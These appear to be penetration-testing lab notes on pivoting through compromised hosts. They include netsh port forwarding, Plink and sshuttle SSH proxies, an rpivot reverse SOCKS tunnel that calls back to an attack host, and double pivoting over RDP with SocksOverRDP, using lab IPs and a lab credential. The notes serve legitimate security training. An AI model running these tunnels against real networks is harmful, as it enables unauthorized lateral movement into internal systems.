



## Port Forwarding with Windows Netsh



### Using Netsh.exe to Port Forward

```powershell
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25

## Verify Port Forward
netsh.exe interface portproxy show v4tov4
```

## SSH for Windows - Plink.exe

Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies. 



### Using Plink.exe

```powershell
plink -ssh -D 9050 ubuntu@10.129.15.50
```

## SSH Pivoting with Sshuttle

Sshuttle is another tool written in Python which removes the need to configure proxychains. However, this tool only works for pivoting over SSH and does not provide other options for pivoting over TOR or HTTPS proxy servers. 

### Running Sshuttle

```bash
## With this command, sshuttle creates an entry in our iptables to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

sudo sshuttle -r ubuntu@10.129.202.64 172.16.52.0/23 -v
```

## Web Server Pivoting with Rpivot

Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. 



### Installation / Requirements

```bash
## Cloning rpivot
sudo git clone https://github.com/klsecservices/rpivot.git

## Installing python2.7
sudo apt-get install python2.7
```

### Using Rpivot

```bash
## Run server.py from Attack Host
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

## Transferring rpivot to the Target
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/

## Running client.py from Pivot Target
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

### Browsing to Target Webseerver using Proxychains

```
proxychains firefox-esr 172.16.5.135:80
```

### Connecting to Web Server using HTTP-Proxy & NTLM Auth

There could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have HTTP-proxy with NTLM authentication configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password.

```bash
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Double Pivoting

### RDP and SOCKS Tunneling with SocksOverRDP

SocksOverRDP is an example of a tool that uses Dynamic Virtual Channels (DVC) from the Remote Desktop Service feature of Windows. DVC is responsible for tunneling packets over the RDP connection. 

Requirements:

- SocksOverRDP x64 Binaries [https://github.com/nccgroup/SocksOverRDP/releases]
- Proxifier Portable Binary [https://www.proxifier.com/download/#win-tab]

Connect to the target using xfreerdp and copy the SocksOverRDPx64.zip file to the target. From the Windows target, we will then need to load the SocksOverRDP.dll using regsvr32.exe.

```powershell
regsvr32.exe SocksOverRDP-Plugin.dll
```

Now we can connect to 172.16.5.19 over RDP using mstsc.exe, and we should receive a prompt that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080. We can use the credentials victor:pass@123 to connect to 172.16.5.19.

We will need to transfer SocksOverRDPx64.zip or just the SocksOverRDP-Server.exe to 172.16.5.19. We can then start SocksOverRDP-Server.exe with Admin privileges.

### Confirm the SOCKS Listener is Started

Go back to our foothold target and check with Netstat, we should see our SOCKS listener started on 127.0.0.1:1080.

```bash
netstat -antb | findstr 1080
```

After starting our listener, we can transfer Proxifier portable to the Windows 10 target (on the 10.129.x.x network), and configure it to forward all our packets to 127.0.0.1:1080. Proxifier will route traffic through the given host and port.

With Proxifier configured and running, we can start mstsc.exe, and it will use Proxifier to pivot all our traffic via 127.0.0.1:1080, which will tunnel it over RDP to 172.16.5.19, which will then route it to 172.16.6.155 using SocksOverRDP-server.exe.